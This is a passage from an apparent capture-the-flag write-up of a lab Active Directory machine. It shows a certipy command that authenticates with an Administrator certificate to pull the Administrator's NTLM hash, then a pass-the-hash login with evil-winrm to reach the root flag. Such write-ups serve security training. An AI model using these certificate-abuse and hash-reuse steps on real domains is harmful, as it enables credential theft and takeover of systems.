

Now we can just use the Administrator certificate to authenticate:

```
certipy auth -pfx administrator.pfx -dc-ip 10.129.37.190
```

And retrieve the Administrator's NTLM hash!



We can then use the hash to log in as the Administrator using evil-winrm and obtain the root flag:



Thus solving the challenge!


